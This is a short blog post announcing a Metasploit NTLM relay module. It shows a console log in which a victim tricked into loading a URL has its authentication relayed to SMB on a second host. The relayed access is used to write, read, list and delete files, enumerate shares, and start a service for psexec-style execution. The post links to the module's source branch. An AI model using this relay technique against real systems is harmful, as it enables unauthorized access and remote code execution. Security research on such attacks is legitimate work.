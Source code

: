 = Cross-Protocol Chained Pass the Hash for Metasploit
:hp-tags: metasploit, pth, smbrelay

Every so often someone writes a Metasploit Module that is pretty epic. Today is one such day:

![](/images/postimages/201207_pth_1.png)

Twitter Link: [https://twitter.com/webstersprodigy/status/222529916783169536](https://twitter.com/webstersprodigy/status/222529916783169536)

Which has a link to here: [https://github.com/rapid7/metasploit-framework/pull/589](https://github.com/rapid7/metasploit-framework/pull/589)

Demo / Example resource files: [https://skydrive.live.com/?cid=19794fac33285fd5&resid=19794FAC33285FD5!170&id=19794FAC33285FD5%21170](https://skydrive.live.com/?cid=19794fac33285fd5&resid=19794FAC33285FD5!170&id=19794FAC33285FD5%21170)

You can pull the fork w/ branch from here: [https://github.com/webstersprodigy/metasploit-framework/tree/module-http-ntlmrelay](https://github.com/webstersprodigy/metasploit-framework/tree/module-http-ntlmrelay)

And as soon as you do you can start doing this (**_using the example resource file to put a file, cat it out, enum shares available, list files on a share, then psexec all from a single URL being loaded_**):

163 address is the Victim I tricked into loading a URL and 182 is the system I want to get onto. This is an HTTP request resulting in a SMB Relay'd auth. It looks as though multiple targets can be used as relay targets but I haven't tested this out yet.

```
[*] 172.16.10.163 http_ntlmrelay - NTLM Request '/smb_put' from 172.16.10.163:52327
[*] 172.16.10.163 http_ntlmrelay - Beginning NTLM Relay...
[*] 172.16.10.163 http_ntlmrelay - SMB auth relay succeeded
[*] 172.16.10.163 http_ntlmrelay - File \\172.16.10.182\c$\secret.txt written
[*] 172.16.10.163 http_ntlmrelay - NTLM Request '/smb_get' from 172.16.10.163:52328
[*] 172.16.10.163 http_ntlmrelay - Beginning NTLM Relay...
[*] 172.16.10.163 http_ntlmrelay - SMB auth relay succeeded
[*] 172.16.10.163 http_ntlmrelay - Reading 13 bytes from 172.16.10.182
[*] 172.16.10.163 http_ntlmrelay - ----Contents----
[*] 172.16.10.163 http_ntlmrelay - hi ima secret
[*] 172.16.10.163 http_ntlmrelay - ----End Contents----
[*] 172.16.10.163 http_ntlmrelay - NTLM Request '/smb_enum' from 172.16.10.163:52329
[*] 172.16.10.163 http_ntlmrelay - Beginning NTLM Relay...
[*] 172.16.10.163 http_ntlmrelay - SMB auth relay succeeded
[*] 172.16.10.163 http_ntlmrelay - Shares enumerated 172.16.10.182 IPC$ ADMIN$ C$
[*] 172.16.10.163 http_ntlmrelay - NTLM Request '/smb_ls' from 172.16.10.163:52330
[*] 172.16.10.163 http_ntlmrelay - Beginning NTLM Relay...
[*] 172.16.10.163 http_ntlmrelay - SMB auth relay succeeded
[*] 172.16.10.163 http_ntlmrelay - Listed 13 files from 172.16.10.182c$
[*] 172.16.10.163 http_ntlmrelay - .rnd
[*] 172.16.10.163 http_ntlmrelay - PerfLogs
[*] 172.16.10.163 http_ntlmrelay - config.sys
[*] 172.16.10.163 http_ntlmrelay - inetpub
[*] 172.16.10.163 http_ntlmrelay - xampp
[*] 172.16.10.163 http_ntlmrelay - ProgramData
[*] 172.16.10.163 http_ntlmrelay - MSOCache
[*] 172.16.10.163 http_ntlmrelay - secret.txt
[*] 172.16.10.163 http_ntlmrelay - autoexec.bat
[*] 172.16.10.163 http_ntlmrelay - Windows
[*] 172.16.10.163 http_ntlmrelay - Users
[*] 172.16.10.163 http_ntlmrelay - Program Files
[*] 172.16.10.163 http_ntlmrelay - NTLM Request '/smb_rm' from 172.16.10.163:52332
[*] 172.16.10.163 http_ntlmrelay - Beginning NTLM Relay...
[*] 172.16.10.163 http_ntlmrelay - SMB auth relay succeeded
[*] 172.16.10.163 http_ntlmrelay - File \\172.16.10.182\c$\secret.txt deleted
[*] 172.16.10.163 http_ntlmrelay - NTLM Request '/smb_pwn' from 172.16.10.163:52333
[*] 172.16.10.163 http_ntlmrelay - Beginning NTLM Relay...
[*] 172.16.10.163 http_ntlmrelay - SMB auth relay succeeded
[*] 172.16.10.163 http_ntlmrelay - Obtraining a service manager handle...
[*] 172.16.10.163 http_ntlmrelay - Creating a new service
[*] 172.16.10.163 http_ntlmrelay - Closing service handle...
[*] 172.16.10.163 http_ntlmrelay - Opening service...
[*] 172.16.10.163 http_ntlmrelay - Starting the service...
```

Let the fun begin...
